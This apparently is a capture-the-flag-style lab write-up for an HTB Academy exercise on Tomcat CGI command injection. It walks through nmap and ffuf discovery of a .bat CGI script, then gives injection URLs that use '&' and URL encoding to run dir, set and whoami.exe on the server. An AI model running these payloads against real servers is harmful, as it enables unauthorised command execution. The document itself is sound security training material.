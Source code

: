 ### HTB Academy Lab: CGI Command Injection

**Lab Question:** "After running the URL Encoded 'whoami' payload, what user is tomcat running as?"

#### Step 1: Service Discovery
```bash
# Nmap scan identifies Tomcat
nmap -p- -sC -Pn TARGET --open
# Result: Apache Tomcat/9.0.17 on port 8080
```

#### Step 2: CGI Script Discovery
```bash
# Fuzz for CGI scripts (.bat extension on Windows)
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://TARGET:8080/cgi/FUZZ.bat

# Found: welcome.bat
# URL: http://TARGET:8080/cgi/welcome.bat
```

#### Step 3: Command Injection Exploitation
```bash
# Basic test - directory listing
http://TARGET:8080/cgi/welcome.bat?&dir

# Environment variables check
http://TARGET:8080/cgi/welcome.bat?&set

# Whoami command (URL-encoded to bypass filters)
http://TARGET:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

**Key Technical Details:**
- **Command separator:** `&` allows command chaining
- **URL encoding required:** Bypasses Tomcat's special character filter
- **Full path needed:** PATH variable unset in CGI environment
- **Payload:** `c:\windows\system32\whoami.exe` → `c%3A%5Cwindows%5Csystem32%5Cwhoami.exe`

**Expected Answer:** User running Tomcat service (typically `nt authority\system` or service account)

#### Attack Mechanism
1. **CGI Servlet** processes query parameters as command arguments
2. **Input validation failure** allows command injection via `&`
3. **URL encoding bypass** defeats special character filters
4. **Arbitrary command execution** with Tomcat service privileges

---

## Next Steps

After mastering Tomcat exploitation:
1. **[Jenkins Discovery & Attacks](jenkins-discovery-attacks.md)** - CI/CD pipeline exploitation
2. **[Java Deserialization Attacks](java-deserialization.md)** - Advanced Java vulnerability analysis
3. **[Spring Boot Security Assessment](spring-boot-security.md)** - Framework-specific exploitation
